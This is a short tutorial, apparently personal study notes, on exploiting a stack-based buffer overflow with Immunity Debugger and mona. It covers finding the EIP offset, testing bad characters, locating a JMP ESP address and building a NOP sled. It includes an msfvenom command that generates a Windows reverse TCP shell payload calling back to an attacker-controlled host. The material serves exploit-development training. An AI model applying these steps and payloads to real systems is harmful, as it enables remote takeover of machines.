 Stack_based_buffer_overflow_example_with_immunity_debugger

- Generate a pattern :

`/opt/metasploit/tools/exploit/pattern_create.rb -l <size>`

- Insert the pattern into your script.

- Run it

- Then use `pattern_offset.rb` with the value in hex you bring in the registers

- Then to make sur you're right, insert A number of the offset , 4 *B, and the end with C.

- After that, increase the size of the buffer of C to verify that you have enough space to send your shellcode.

- Next step is to analyze which bad characters are not allowed (send bad characters after the 4 B, and analyze it).

- Then, we want to point EIP to ESP to execute our shell. But after each crash, the value of ESP change. So we have to find an address where there's a JMP ESP. Pay attention, to do that, DEP and ASLR have to be not activated, and this address should not contain bad characters.

- Using mona in immunity debugger to find a module : `!mona modules`

- Make sure ASLR is false, there's no null bytes in the base address and DEP is also at false. 

- When you have identified a module, you have to know what's the asm code for jmp esp. Use `nasm_shell` in metasploit tools directory. It's FFE4

- Now in mona : `!mona find -s “\xff\xe4” -m <module>`

- When you find a good address, click on it, copy the address, and click on the icon with a narrow to go to the expression. pay attention to bad char, they don't have to be present at the address

- put a breakpoint on it and modify your payload to redirect EIP to ESP

- pay attention if you want to put your breakpoint, do not run the program before, stay in pause (initial state) 

- Then generate a shell. Example: for a 32 bits system : `msfvenom -p windows/shell_reverse_tcp LHOST=<local ip> LPORT=<local port> -f c EXITFUNC=thread -b <bad chars>`. EXITFUNC=thread to avoid the crash of the application when you launch the script (by default it's EXITPROCESS so it killed the application).

- Modify your script and add your shell. Don't forget to insert nop codes before (\x90)




